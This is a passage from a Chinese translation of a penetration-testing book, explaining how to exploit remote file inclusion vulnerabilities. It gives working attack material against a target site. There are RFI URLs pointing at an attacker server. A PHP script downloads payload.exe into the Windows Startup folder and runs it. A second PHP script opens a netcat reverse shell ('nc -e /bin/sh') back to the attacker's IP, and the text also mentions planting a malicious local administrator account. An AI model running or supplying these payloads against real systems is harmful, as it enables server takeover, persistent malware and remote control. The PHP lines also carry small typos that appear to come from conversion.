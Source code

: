 现在，我们所要做的就是从我们公开的服务器引用脚本，如下所示：

[http://www.example.website.com/?target=70.106.216.176:8000/server/account.txt](http://www.example.website.com/?target=70.106.216.176:8000/server/account.txt)

如果可能，这将在服务器上创建一个新的恶意本地管理员，我们可以使用该管理员访问服务器。如果系统将 RDP 公开给 Internet，我们的工作将在这里完成，我们只需使用新帐户直接登录系统。如果不是这样，那么我们需要找到另一种方法来利用这个系统；为此，我们将使用实际有效载荷。

创建一个负载，如[第 5 章](05.html "Chapter 5. Exploiting Services with Python")*使用 Python*开发服务中强调的，并将其移动到用于存储引用文件的目录中。

### 提示

用于此攻击的最佳端口为端口 80、端口 443 和端口 53。确保这些服务没有冲突。

创建一个新的 PHP 脚本，可以直接下载文件并执行，名为`payload_execute.txt`：

```
<pre style="text-align:left;">
<?php
    file_put_contents("C:\Documents and Settings\All Users\Start Menu\Programs\Startup\payload.exe", fopen("http://70.106.216.176:8000/server/payload.exe", 'r'));
    echo shell_exec('C:\Documents and Settings\All Users\Start Menu\Programs\Startup\payload.exe'):
?>
</pre>
```

现在，设置您的侦听器（如[第 5 章](05.html "Chapter 5. Exploiting Services with Python")所述，*使用 Python*开发服务）以侦听已定义的本地端口。最后，将新脚本加载到 RFI 请求中，并观察新的潜在 shell 出现：

[http://www.example.website.com/?target=70.106.216.176:8000/server/payload_execute.txt](http://www.example.website.com/?target=70.106.216.176:8000/server/payload_execute.txt)

这些示例说明了如何利用 Windows 主机，但如果它是 Linux 系统呢？根据主机的权限结构，获取 shell 可能会更加困难。也就是说，您可以在 localhost 中查找可能包含明文密码的本地文件和存储库。

Linux 和 Unix 主机为攻击者提供的好处是通常安装了`netcat`和几种脚本语言。每一个都可以向攻击者的监听系统提供一个命令外壳。例如，使用以下命令在面向 Internet 的主机上设置`netcat`侦听器：

```
nc -l 443

```

然后，创建一个存储在文本文件中的 PHP 脚本，如`netcat.txt`：

```
<pre style="text-align:left;">
<?php
    echo shell_exec('nc -e /bin/sh 70.106.216.176 443'):
?>
</pre>
```

接下来，通过引用 URL 中的脚本来运行脚本，如前所示：

[http://www.example.website.com/?target=70.106.216.176:8000/server/netcat.txt](http://www.example.website.com/?target=70.106.216.176:8000/server/netcat.txt)
